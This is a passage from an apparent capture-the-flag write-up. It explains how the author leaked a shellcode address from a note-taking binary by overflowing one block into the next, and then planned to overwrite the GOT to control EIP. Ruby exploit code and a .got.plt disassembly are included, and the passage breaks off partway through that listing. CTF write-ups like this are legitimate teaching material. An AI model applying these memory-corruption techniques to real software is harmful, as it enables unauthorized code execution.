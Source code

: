 <h2>Exploit part 1: Leaking an address</h2>

This is the part where I always cross my fingers. Is executable memory being used? Or am I going to have to do something clever? Honestly, I didn't even figure out whether this was heap or .bss or whatever&mdash;I found this issue almost entirely by recognizing the exploit category. But I figured the easiest thing to do is just to try:

<ul>
  <li>Create a long block containing shellcode</li>
  <li>Create a short block</li>
  <li>Write the shellcode to the long block, and just enough padding to get right up to the short block's 'previous' pointer</li>
  <li>Print out the first block</li>
</ul>

Hopefully this isn't too confusing. What we want is to figure out where in memory shellcode is stored. I didn't actually check if the address is randomized, but it doesn't matter&mdash;when I have the opportunity to read the address of shellcode in a reliable way, I always take it. Why not make the code ASLR-proof if it's not much extra work?

The code looks like this in my exploit:

<pre>
<span class="Comment"># These are used to store shellcode and get the address</span>
reader = add_note(<span class="Type">SHELLCODE_SIZE</span> - <span class="Constant">16</span>)
read   = add_note(<span class="Constant">4</span>)

edit_note(reader, <span class="Type">SHELLCODE_SIZE</span>, <span class="Type">SHELLCODE</span> + (<span class="Special">&quot;</span><span class="Special">\xcc</span><span class="Special">&quot;</span> * (<span class="Type">SHELLCODE_SIZE</span> - SHELLCODE.length)))
result = print_note(reader, <span class="Type">SHELLCODE_SIZE</span> + <span class="Constant">8</span>).unpack(<span class="Special">&quot;</span><span class="Constant">I*</span><span class="Special">&quot;</span>)
<span class="Type">SHELLCODE_ADDRESS</span> = result[(<span class="Type">SHELLCODE_SIZE</span> / <span class="Constant">4</span>)] + <span class="Constant">0x0c</span>
</pre>

In the end, that address wound up being slightly inaccurate. I ended up dealing with that using a NOP sled (ewwww) instead of troubleshooting. Maybe I should have tried to understand the allocation code after all? :)

Now I have the address of my shellcode, what can I do with it!?

<h2>Exploit part 2: Controlling EIP</h2>

This is actually pretty easy once you understand part 1. Unlike gitsmsg (see the link above), RELRO wasn't enabled, which means I could edit the relocation table. The relocation table looks like:

<pre>
<span class="Statement">.got.plt</span>:0<span class="Constant">8049FF4</span> <span class="Identifier">_got_plt</span>        <span class="Identifier">segment</span> <span class="Identifier">dword</span> <span class="Identifier">public</span> '<span class="Identifier">DATA</span>' <span class="Identifier">use32</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">8049FF4</span>                 <span class="Identifier">assume</span> <span class="Identifier">cs</span>:<span class="Identifier">_got_plt</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">8049FF4</span>                 <span class="Comment">;org 8049FF4h</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">8049FF4</span>                 <span class="Identifier">align</span> <span class="Constant">10</span><span class="Identifier">h</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">804A000</span> <span class="Identifier">off_804A000</span>     <span class="Identifier">dd</span> <span class="Identifier">offset</span> <span class="Identifier">read</span>          <span class="Comment">; DATA XREF: _readr</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">804A004</span> <span class="Identifier">off_804A004</span>     <span class="Identifier">dd</span> <span class="Identifier">offset</span> <span class="Identifier">fflush</span>        <span class="Comment">; DATA XREF: _fflushr</span>